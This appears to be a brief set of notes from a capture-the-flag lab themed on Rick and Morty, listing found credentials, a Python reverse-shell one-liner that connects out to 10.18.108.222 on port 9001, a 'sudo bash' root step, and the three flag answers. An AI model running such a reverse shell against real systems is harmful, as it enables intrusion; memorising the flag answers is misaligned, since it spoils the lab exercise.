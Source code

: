 # INFORMATION

Ussername: R1ckRul3s
password: Wubbalubbadubdub
base64 decode text: rabbit hole


# REVERSESHELL

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.108.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'


# GAIN ROOT ACCES

Enter "sudo bash"

# Ingredients:

1. mr. meeseek hair
2. 1 jerry tear
3. fleeb juice